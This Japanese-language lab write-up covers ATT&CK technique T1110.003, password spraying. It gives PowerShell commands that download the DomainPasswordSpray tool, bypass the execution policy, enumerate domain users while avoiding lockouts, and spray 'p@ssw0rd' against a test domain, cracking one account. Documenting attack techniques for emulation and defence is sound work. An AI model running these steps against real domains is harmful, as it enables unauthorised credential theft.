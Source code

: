 # T1110.003 - Password Spraying

Password Spraying
-------------

Password Spraying 攻撃について記載します。

|  Type  | Description   |
----|---- 
|  ID  |  T1110.003  |
|  Tactic  |  Credential Access |
|  Techniques  |  Brute Force  |
|  Sub-techniques  |  Password Spraying |

本検証では、dafthack 氏が公開している「Domain Password Spray」ツールを利用します。

まず、ツールの取得を行うため Invoke-WebRequest での TLS 1.2 を許可した上でダウンロードを行います。

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest –URI "https://github.com/dafthack/DomainPasswordSpray/archive/master.zip" -OutFile "~\Desktop\Tools\PasswordSpary_master.zip“
```

ダウンロードした zip ファイルを展開します。

```
cd C:\Users\Alice\Desktop\Tools\
Expand-Archive .\PasswordSpray_master.zip
```

Excution Policy を許可したうえで、ツールのモジュールをインポートします。

```
cd .\PasswordSpray_master\DomainPasswordSpray-master\
Set-ExecutionPolicy Bypass
Import-Module .\DomainPasswordSpray.ps1
```
ここで、パスワードスプレーを試行するユーザの列挙を行います。
本ツールには、Get-DomainUserList 関数で事前にユーザの列挙を行う機能が備わっています。
以下の例では、列挙したユーザを userlist.txt ファイルに出力しています。

```
Get-DomainUserList -Domain labcorp.local -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```
![T1110.003-1](images/T1110.003-1.png)

次に、パスワードスプレーでは特定のパスワードを複数のユーザに対して試行を行いますが、本ツールでは試行するパスワードをリストで指定することが可能です。
多くのパスワードを指定すると、アカウントロックの恐れがあるため事前にパスワードポリシーを調査します。

パスワードポリシーの調査には、Powershell の Get-ADDefaultDomainPasswordPolicy ユーティリティを用います。
Windows 10 では標準で本ユーティリティが備わっていないため、Remote Server Administration Tools (RSAT) をインストールします。

![T1110.003-2](images/T1110.003-2.png)

https://docs.microsoft.com/en-US/troubleshoot/windows-server/system-management-components/remote-server-administration-tools

![T1110.003-3](images/T1110.003-3.png)

https://www.microsoft.com/en-us/download/details.aspx?id=45520

Get-ADDefaultDomainPasswordPolicy ユーティリティを実行するとアカウントロックの閾値を確認することができます。
以下の場合は、「Lookout Threshold」の値が 0 であるためアカウントロックの閾値は設定されていないことがわかります。

![T1110.003-4](images/T1110.003-4.png)

アカウントロックの閾値は設定されていませんでしたが、次の実行例ではパスワードに「p@ssw0rd」という文字列を指定してパスワードスプレーを試行しました。
その結果、ユーザ Alice のパスワードに合致しました。

```
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain labcorp.local -Password p@ssw0rd -OutFile sprayed-creds.txt
```

![T1110.003-5](images/T1110.003-5.png)
